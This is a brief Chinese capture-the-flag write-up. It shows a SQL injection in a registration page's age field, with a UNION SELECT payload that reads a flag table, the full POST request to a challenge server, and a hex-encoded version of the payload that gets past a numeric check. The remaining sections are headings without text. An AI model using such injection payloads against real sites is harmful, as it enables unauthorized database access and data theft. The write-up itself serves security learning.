








# writeup

### 注册页面age参数存在sql注入：

```
payload：1 and 1=2 union select 1,(select flag from flag),3,4#

POST:

http://39.107.32.29:10000/index.php?func=register


username=admin31233&age=1 and 1=2 union select 1,(select flag from flag),3,4#&password=admin1230


payload经过hex编码之后：


username=admin31423&age=3120616e6420313d3220756e696f6e2073656c65637420312c2873656c65637420666c61672066726f6d20666c6167292c332c3423&password=admin1230

```
### 0x01 题目链接


### 0x02 注册页面


### 0x03 age be a number


### 0x04 注册post包


### 0x05 注册成功


### 0x06 登陆post包


### 0x07 登陆后的返回包


### 0x08 登陆成功看到flag



